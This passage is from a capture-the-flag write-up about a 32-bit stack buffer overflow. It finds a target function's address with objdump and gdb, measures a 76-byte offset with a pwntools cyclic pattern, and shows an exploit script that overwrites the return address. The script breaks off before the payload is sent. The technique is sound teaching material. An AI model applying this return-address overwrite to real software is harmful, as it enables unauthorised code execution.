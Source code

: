 ## Finding the Target Function

Using `objdump` to analyze the binary:

```bash
objdump -d liberation_binary | grep "access_resistance_mainframe"
```

This reveals the function address. In my case, it was `0x08049196`. We can also use `gdb` to find function addresses:

```bash
gdb ./liberation_binary
(gdb) info functions
```

## Determining the Offset

To exploit the buffer overflow, I needed to find the exact offset from the start of our input to the saved return address. Using `pwntools` to generate a cyclic pattern:

```python
from pwn import *
print(cyclic(100))
```

Running this in `gdb` and analyzing the crash:

```bash
gdb ./liberation_binary
(gdb) run
# Input the cyclic pattern when prompted
(gdb) cyclic -l 0x6161616c  # Using the value that overwrote EIP
76
```

Perfect! The offset is 76 bytes.

## Exploitation

Here's my complete exploit script using `pwntools`:

```python
#!/usr/bin/env python3
from pwn import *

# Set context for 32-bit architecture
context.arch = 'i386'
context.log_level = 'info'

# Connect to the challenge (replace with actual host/port)
# For local testing: conn = process('./liberation_binary')
conn = remote('ctf.0x4m4.com', 9999)

# Address of access_resistance_mainframe() function
# This address should be obtained through static analysis
access_func_addr = 0x08049196

# Craft the payload
log.info(f"Target function address: {hex(access_func_addr)}")
log.info("Crafting buffer overflow payload...")

payload = b'A' * 76  # Padding to reach return address
payload += p32(access_func_addr)  # Overwrite return address

# Send the payload
conn.recvuntil(b"ENTER ACCESS CREDENTIALS: ")
log.info("Sending payload...")
```